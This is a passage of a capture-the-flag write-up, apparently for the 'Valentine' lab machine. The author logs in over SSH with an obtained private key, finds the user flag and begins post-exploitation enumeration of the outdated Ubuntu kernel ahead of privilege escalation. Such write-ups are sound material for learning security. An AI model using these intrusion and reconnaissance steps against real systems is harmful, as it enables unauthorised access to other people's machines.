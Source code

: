 ```
$ chmod 600 rsa_priv_key.txt
$ ssh -i rsa_priv_key.txt hype@10.10.10.79
Enter passphrase for key 'rsa_priv_key.txt': 
Welcome to Ubuntu 12.04 LTS (GNU/Linux 3.2.0-23-generic x86_64)

 * Documentation:  https://help.ubuntu.com/

New release '14.04.5 LTS' available.
Run 'do-release-upgrade' to upgrade to it.

Last login: Thu Jul 12 06:15:37 2018 from 10.10.15.23
hype@Valentine:~$
```

We are in! Now let's look for the user flag..

```
hype@Valentine:~$ pwd
/home/hype
hype@Valentine:~$ ls
Desktop  Documents  Downloads  Music  Pictures  Public  Templates  Videos
hype@Valentine:~$ find . -name user.txt
./Desktop/user.txt
```

### OWN MACHINE

```
https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/
```

##### INFO GATHERING

What OS are we dealing with here?

```
$ uname -a
Linux Valentine 3.2.0-23-generic #36-Ubuntu SMP Tue Apr 10 20:39:51 UTC 2012 x86_64 x86_64 x86_64 GNU/Linux
```
```
hype@Valentine:/$ cat /proc/version
Linux version 3.2.0-23-generic (buildd@crested) (gcc version 4.6.3 (Ubuntu/Linaro 4.6.3-1ubuntu4) ) #36-Ubuntu SMP Tue Apr 10 20:39:51 UTC 2012
hype@Valentine:/$ cat /etc/issue
Ubuntu 12.04 LTS \n \l
```

That's a pretty outdate OS and kernel..


##### LINUX ENUM

Now that we have a session on the machine, let's bring over our Linux Enum
script and see what it might find for us..
